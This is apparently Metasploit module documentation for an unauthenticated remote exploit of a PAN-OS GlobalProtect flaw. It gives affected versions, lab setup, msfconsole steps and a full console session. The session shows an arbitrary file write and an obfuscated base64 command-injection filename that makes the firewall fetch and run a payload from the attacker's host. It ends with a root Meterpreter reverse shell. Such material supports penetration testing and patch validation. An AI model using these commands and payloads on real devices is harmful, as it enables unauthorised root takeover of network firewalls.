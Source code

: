 ## Vulnerable Application
This module exploits two vulnerabilities in Palo Alto Networks PAN-OS that
allow an unauthenticated attacker to create arbitrarily named files and execute
shell commands. Configuration requirements are PAN-OS with GlobalProtect Gateway or
GlobalProtect Portal enabled and telemetry collection on (default). Affected versions
include < 11.1.0-h3, < 11.1.1-h1, < 11.1.2-h3, < 11.0.2-h4, < 11.0.3-h10, < 11.0.4-h1,
< 10.2.5-h6, < 10.2.6-h3, < 10.2.8-h3, and < 10.2.9-h1. Payloads may take up to
one hour to execute, depending on how often the telemetry service is set to run.

For a technical analysis of the vulnerability, read our [Rapid7 Analysis](https://attackerkb.com/topics/SSTk336Tmf/cve-2024-3400/rapid7-analysis).

## Testing
Boot a vulnerable PAN-OS VM or device, then authenticate to the management web service with default credentials. From the
web dashboard, configure a GlobalProtect [Portal](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-portals/set-up-access-to-the-globalprotect-portal)
and/or [Gateway](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-gateways/configure-a-globalprotect-gateway).
With either or both started, the `gpsvc` service will begin serving an HTTPS service on port 443 for the second
network interface. Confirm that the web service presents a Palo Alto Networks login page when viewed. This web application
is the target of the exploit, and the '/global-protect/login.esp' page should be accessible.

The exploit has been tested against PAN-OS 10.2.9, and it should also be effective against other similarly-configured 10.2, 11.0,
and 11.1 versions.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_telemetry_cmd_exec`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `check`
7. `exploit`

## Scenarios

### Linux Command

Note: Ensure the target is vulnerable to unauthenticated file creation with the `check` command.

Note: Since it can take up to one hour to establish code execution, the listener should be left running for that period.

Note: In the standard PAN-OS configuration, the payload is delivered to the GlobalProtect interface IP, but the shell will return via a different PAN-OS management interface IP. 

```
msf > use exploit/linux/http/panos_telemetry_cmd_exec
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/panos_telemetry_cmd_exec) > show options

Module options (exploit/linux/http/panos_telemetry_cmd_exec):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443                        yes       The target port (TCP)
   SSL        true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /global-protect/login.esp  yes       An existing web application endpoint
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      EkcxbboZMyD      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(linux/http/panos_telemetry_cmd_exec) > set RHOSTS 192.168.50.226
RHOSTS => 192.168.50.226
msf exploit(linux/http/panos_telemetry_cmd_exec) > set LHOST 192.168.50.25
LHOST => 192.168.50.25
msf exploit(linux/http/panos_telemetry_cmd_exec) > set LPORT 8585
LPORT => 8585
msf exploit(linux/http/panos_telemetry_cmd_exec) > check
[+] 192.168.50.226:443 - The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ipteqmbl-regular.woff2 NOTE: This file will not be deleted
msf exploit(linux/http/panos_telemetry_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.50.25:8585 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ikxrpbmq-regular.woff2 NOTE: This file will not be deleted
[*] Depending on the PAN-OS version, it may take the telemetry service up to one hour to execute the payload
[*] Though exploitation of the arbitrary file creation vulnerability succeeded, command injection will fail if the default telemetry service has been disabled
[*] Meterpreter session 1 opened (192.168.50.25:8585 -> 192.168.50.216:48310) at 2024-04-18 14:53:09 -0500
[!] This exploit may require manual cleanup of '/opt/panlogs/tmp/device_telemetry/minute/lyne`echo${IFS}-n${IFS}d2dldCAtcU8gL3Zhci90bXAvdWdWZlhXUnhWIGh0dHA6Ly8xOTIuMTY4LjUwLjI1OjgwODAvcUpPXzJ2MUFPVkRIc2hsVVIyRHVzQTsgY2htb2QgK3ggL3Zhci90bXAvdWdWZlhXUnhWOyAvdmFyL3RtcC91Z1ZmWFdSeFYgJg==|base64${IFS}-d|bash${IFS}-`' on the target

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.50.216
OS           : CentOS 8.3.2011 (Linux 4.18.0-240.1.1.20.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

